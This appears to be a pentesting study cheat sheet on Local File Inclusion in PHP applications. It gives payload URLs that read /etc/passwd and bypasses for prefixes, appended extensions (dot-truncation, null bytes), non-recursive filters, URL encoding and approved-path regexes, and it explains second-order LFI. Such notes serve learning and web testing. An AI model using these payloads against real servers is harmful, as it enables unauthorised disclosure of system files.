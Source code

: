 # Local File Inclusion (LFI)
## Basic LFI

```
http://<SERVER_IP>:<PORT>/index.php?language=es.php
```
###### `language` parameter is vulnerable to LFI then -

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
## Path Traversal
###### We may be restricted to a path. We can traverse it using ../

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```
###### This attempt at LFI fails so we use:

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```
## Filename Prefix

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../etc/passwd
```
###### This may fail yet again because

```php
include("lang_" . $_GET['language']);
```
###### This will make our ../../../etc/passwd into lang_../../../etc/passwd which doesnt exit.
###### This can be bypassed with a /

```
http://<SERVER_IP>:<PORT>/index.php?language=/../../../etc/passwd
```
## Appended Extensions

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../etc/passwd
```
###### This may fail yet again because

```php
include($_GET['language'] . ".php");
```
##### To Fix this: (Note: Both apply to old versions of PHP)
###### 1. 2048 times skipping the extension with ./ (limitation of 32 bit systems)

```
?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]
```
###### Automated

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```
###### 2. Using a null byte

```
/etc/passwd%00.php 
```

will become `/etc/passwd` as text after null byte is getting skipped

## Non-Recursive Path Traversal Filters
###### This function could prevent us from doing a path traversal with ../../../

```php
$language = str_replace('../', '', $_GET['language']);
```
###### Bypass using ....// The function will remove ..'../'/ making it ../

```
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```
###### Encoding `../` into `%2e%2e%2f` (URL encoding)

```
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
## Approved Paths

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
###### Functions like these could restrict us to a single path/folder. Simple bypass with ../ just add the folder/path name before.

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```
## Second-Order Attacks

As we can see, LFI attacks can come in different shapes. Another common, and a little bit more advanced, LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a `Second-Order` attack.

Developers often overlook these vulnerabilities, as they may protect against direct user input (e.g. from a `?page` parameter), but they may trust values pulled from their database, like our username in this case. If we managed to poison our username during our registration, then the attack would be possible.

Exploiting LFI vulnerabilities using second-order attacks is similar to what we have discussed in this section. The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.

Note: All techniques mentioned in this section should work with any LFI vulnerability, regardless of the back-end development language or framework.
# Tags
> #Web-Exploitation #LFI #RCE #Filters #Wrappers #Automation #File-Disclosure